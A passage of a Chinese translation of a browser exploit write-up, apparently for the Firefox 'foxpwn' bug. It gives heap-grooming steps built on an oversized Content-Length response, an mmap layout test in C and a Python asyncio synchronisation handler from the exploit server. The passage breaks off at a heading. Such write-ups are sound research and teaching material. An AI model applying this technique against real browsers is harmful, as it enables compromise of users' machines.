 首先，看起来没有那么可靠。 例如，它需要发送和分配多个千兆字节的内存。 但是，我们会看到，该bug事实上可以被很可靠的利用的，并且在我的2015年版本的MacBook Pro上打开页面后大约一分钟内就能完成漏洞的触发。 我们现在将首先探讨如何利用这个bug在macOS上弹出一个计算器，然后提高漏洞利用的可靠性，并使用较少的带宽（我们将使用HTTP压缩数据）。

**<br>**

**漏洞利用**



```
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
const size_t MAP_SIZE = 0x100000;       // 1 MB
int main()
{
    char* chunk1 = mmap(NULL, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    char* chunk2 = mmap(NULL, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    printf("chunk1: %p - %pn", chunk1, chunk1 + MAP_SIZE);
    printf("chunk2: %p - %pn", chunk2, chunk2 + MAP_SIZE);
    return 0;
}
```

上面的程序的打印结果，能告诉我们能通过简单的mmap ，映射内存直到存有的空间都被填充，然后通过mmap分配一个内存块，来分配溢出缓冲区后面的东西。 要验证这一点，我们将执行以下操作：

加载脚本(包含payload.js,将导致溢出的代码) 和一些异步执行的JavaScrip代码(code.js，用来执行下面的步骤3和步骤5)

当浏览器请求payload.js时，让服务器回复Content-Length为0x100000001，但只发送数据的第一个0xffffffff字节

然后，让JavaScript代码分配多个足够大的（1GB）ArrayBuffers（内存不一定会使用，直到实际写入缓冲区）

让webserver发送payload.js的剩余两个字节

检查每个ArrayBuffer的前几个字节， 有一个应该包含由webserver发送数据

为了实现这一点，我们将需要在浏览器中运行的JavaScript代码和web服务器之间的某种同步原语。 为此，我在python的asyncio库上面写了一个小的[web服务器](https://github.com/saelo/foxpwn/blob/master/server.py) ，它包含一个方便的[事件对象](https://docs.python.org/3/library/asyncio-sync.html#event) ，用于同步协同。 创建两个全局事件可以向服务器发信号通知客户端代码已完成其当前任务，并且现在正在等待服务器执行下一步骤。 /sync的处理程序如下所示：



```
async def sync(request, response):
    script_ready_event.set()
    await server_done_event.wait()
    server_done_event.clear()
    response.send_header(200, {
        'Content-Type': 'text/plain; charset=utf-8',
        'Content-Length': '2'
    })
    response.write(b'OK')
    await response.drain()
```



**获取目标 Hunting for Target Objects**

